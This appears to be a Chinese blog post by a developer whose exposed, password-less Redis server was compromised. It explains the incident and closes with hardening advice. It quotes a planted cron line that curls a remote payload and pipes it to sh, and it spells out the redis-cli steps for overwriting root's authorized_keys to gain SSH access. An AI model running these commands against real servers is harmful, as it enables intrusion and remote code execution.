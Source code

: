 # redis存在的漏洞

### 场景简介
最近自己的测试服务器，连续两次redis数据被flushdb，并且我的centos服务器被shotdown了，引起了我的重视，redis数据丢失，服务器关机。如果正式服务器出现这种情况，估计老板要拿程序员祭天了。

测试服务器中reids端口利用的6379(没有修改端口),密码无，6379端口对外开放，这样的情况可以说是光屁股裸奔，人家不搞你搞谁。由于我没有设置redis密码，利用redis-cli可以执行flushdb清空数据。可是为什么服务器被关机了呢？请看下文。

接下来寻找服务器被关机的原因

### 步骤

1. 我先查看redis中当前存在的keys值，调用keys * 出现了一个名为：trojans1的键(汉语意思是木马，黑客哥哥还是很够意思的，创建如此让人醒目的键值)
```
> get trojans1
"trojans1"
"\b*/5 * * * * curl -fsSL http://43.243.130.172:60253/work.exe | sh\n"
```

2. 经过第一步可以知道我的redis被攻击了，再加上服务器被关机，我首先想到我密码丢了吗(那么复杂的密码，不会被破解吧)，然后我想先去看看服务器是否保存了未知用户的ssh公钥，我进入~/.ssh目录查看authorized_keys文件，诶，确实有一个未知的ssh公钥。我们服务器被攻击了，服务器保存了未知用户的公钥，可以免密码登录服务器进行任意操作

3. 奇了怪了，服务器怎么被攻击的呢？首先通过上文可以知道攻击途径可能是redis，百度了一下redis flushdb 攻击，被我发现了一个奇淫技巧，通过redis可以覆盖authorized_keys文件，然后此时未授权用户就可以通过ssh登录到服务器，好神奇呦，接下来写个笔记总结一下redis如何将自己的ssh公钥上传到redis服务器，并覆盖authorized keys文件

### 重头戏来了

常见的攻击方式
```
# 将本机公钥内容放到redis-server的redis键里面
cat /root/.ssh/id_rsa.pub | redis-cli -h 192.168.1.101 -x set redis
# 连接redis服务器
redis-cli -h 192.168.1.101
# 快照的存储地址
config set dir /root/.ssh/
# 设置执行save时快照的文件名
config set dbfilename "authorized_keys"
# 保存redis快照
save
```

另一种攻击方式

将redis快照存储到/var/spool/cron目录下，利用定时任务执行远程脚本

### 调用set dir * * *的时候会执行失败

情况一：
(error) ERR Changing directory: No such file or directory

情况二：(error) ERR Changing directory: Permission denied

### 解决方案
不要以root身份运行

不要设置6379默认端口

尽量设置密码

修改config还有flushdb还有keys的别名
```
# 修改redis.conf的配置
rename-command FLUSHALL ""
rename-command FLUSHDB  ""
rename-command CONFIG   ""
rename-command KEYS     ""
```

docker中运行也是个不错的解决方案，因为docker中最小单元可能没有ssh还有定时任务